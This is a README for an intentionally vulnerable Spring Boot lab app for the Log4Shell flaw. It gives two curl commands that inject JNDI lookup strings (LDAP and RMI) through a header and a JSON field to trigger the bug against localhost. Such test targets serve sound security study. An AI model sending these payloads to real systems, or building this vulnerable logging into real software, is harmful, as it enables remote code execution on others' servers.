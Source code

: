 # SpringBoot-log4shell

This is a vulnerable application for log4shell vulnerability.
You can use these curl requests to test it.

> curl --location --request GET 'http://localhost:8080/requestWithHeader' \
> --header 'justaheader: ${jndi:ldap://127.0.0.1:1389/9veqmv}'


>  curl --location --request POST 'http://localhost:8080/logThis' \
>  --header 'Content-Type: application/json' \
>  --data-raw '{
>      "log":"${jndi:rmi://127.0.0.1:1099/9veqmv}"
>  }'
